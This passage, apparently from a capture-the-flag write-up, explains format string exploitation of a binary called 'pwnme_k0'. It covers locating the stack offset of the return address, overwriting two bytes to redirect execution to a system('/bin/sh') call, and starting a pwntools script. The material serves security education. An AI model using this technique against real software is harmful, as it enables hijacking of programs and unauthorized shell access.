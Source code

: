 ```text
0x00007fffffffdb70│+0x30: "%p%p%p%pM\r@"

0x00007fffffffdb78│+0x38: 0x0000000000400d4d  →   cmp eax, 0x2

```



You can see that the second location on the stack stores the return address of the function (in fact, the value stored in the push rip when the show account function is called), and the offset in the format string is 7.


At the same time, on the stack, the first element stores the rbp of the previous function. So we can get the offset 0x00007fffffffdb80 - 0x00007fffffffdb48 = 0x38. Then if we know the value of rbp, we know the address of the function return address.


0x0000000000400d74 is different from 0x00000000004008A6 with only 2 bytes lower, so we can only modify 2 bytes starting at 0x00007fffffffdb48.


It should be noted here that on some newer systems (such as ubuntu 18.04), the program crash may occur when the return address is directly modified to 0x00000000004008A6. In this case, you can consider modifying the return address to 0x00000000004008AA, that is, directly calling system(&quot;/bin /sh&quot;)


```assembly

.text:00000000004008A6 sub_4008A6      proc near

.text:00000000004008A6 ; __unwind {

.text:00000000004008A6                 push    rbp

.text:00000000004008A7                 mov     rbp, rsp

.text:00000000004008AA <- here         mov     edi, offset command ; "/bin/sh"

.text:00000000004008AF                 call    system

.text:00000000004008B4                 pop     rdi

.text:00000000004008B5                 pop     rsi

.text:00000000004008B6                 pop     rdx

.text: 00000000004008B7 retn
```



#### Using the program
```python

from pwn import *

context.log_level="debug"

context.arch="amd64"



sh=process("./pwnme_k0")

binary=ELF("pwnme_k0")

#gdb.attach(sh)
```